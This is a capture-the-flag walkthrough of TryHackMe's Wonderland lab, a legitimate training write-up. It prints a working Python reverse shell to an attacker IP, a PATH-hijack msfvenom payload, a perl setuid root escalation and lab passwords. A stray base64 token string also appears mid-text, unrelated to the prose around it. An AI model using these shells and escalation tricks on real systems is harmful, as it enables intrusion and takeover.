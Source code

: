 #### TryHackMe : https://tryhackme.com/room/wonderland
#Fall down the rabbit hole and enter wonderland.

First we do a simple Nmap scan and reveal only port 80 and 22 are open on this machine. After visiting the website, we can see an image of a white rabbit and the page tells us to follow it.


`gobuster dir --url http://10.10.97.210/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

After we find the /r/ dir, it tells us to keep going. I run the same command on /r/ and find /r/a/, from this point on i figured its probably /r/a/b/b/i/t/. When we open http://10.10.97.210/r/a/b/b/i/t/ We see a page telling us to open the door.

If we inspect the source of this page, we find `alice:HowDothTheLittleCrocodileImproveHisShiningTail` hidden in the source. Since the webserver is probably a dead-end, this is possibly SSH credentials to login with. so we try it.

ssh alice@$TARIP
password: HowDothTheLittleCrocodileImproveHisShiningTail

This logs us in successfully on the target machine.


with sudo -l (Using previous password) we can check what commands we can run as sudo
```
sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

```dG9rZW49ZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5U1dRaU9qSXNJblZ6WlhKdVlXMWxJam9pYldsamFHRmxiQ0lzSW1Ga2JXbHVJanAwY25WbExDSnBZWFFpT2pFMk5UZzBNVFEwTWpaOS5ibzRXZnU0dUtmdXZoQVlIZHpvN2lvSXZsWFB3T2FSNGU1YVhDekFMVk1v
This means we can execute that exact command and be the user rabbit while doing it.

  `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`

We can check in walrus_and_the_carpenter.py that it imports the package `import random`, maybe we can do somethign with this. In Python you can check paths on how the "packages" are initialized.

```
python3 -c 'import sys; print(sys.path)'
['', '/usr/lib/python36.zip', '/usr/lib/python3.6', '/usr/lib/python3.6/lib-dynload', '/usr/local/lib/python3.6/dist-packages', '/usr/lib/python3/dist-packages']
```

This shows us that the first path python checks is '', so inside the home folder we should create a random.py which creates a reverse shell.


```
print('Hallo World!');
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.12.121",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh");
```

With the reverse shell, we are now logged in as Rabbit on the target machine!

This shows us a executeable called "teaParty" with the SUID bit set

We use "strings" on this and see that it calls /bin/echo and "date" in a relative path...
We craft a reverse shell executable with msfvenom and set the $PATH var to include the local path.

`export PATH=/home/rabbit:/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin`
and name the msfvenom elf "date".
This gives us a reverse shell as "hatter" in /home/hatter we see a password.txt and we now have shell access as hatter.

password.txt : WhyIsARavenLikeAWritingDesk?
User: hatter


After we Do some linpeas and LinEnum enumeration we find that "pearl" has some extra "capabilities"
We check GTFObins for a escalation method and it seems its really simple:

`./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`
This gives us root and we can read /home/alice/root.txt for the Flag.

Now we still dont have the user flag, the hint is everything is upside-down...
If root.txt is in the alice folder, maybe user.txt is in /root/user.txt even though we cannot ls `/root/`.

`cat /root/user.txt` gives us the user flag, and we complete the room.24
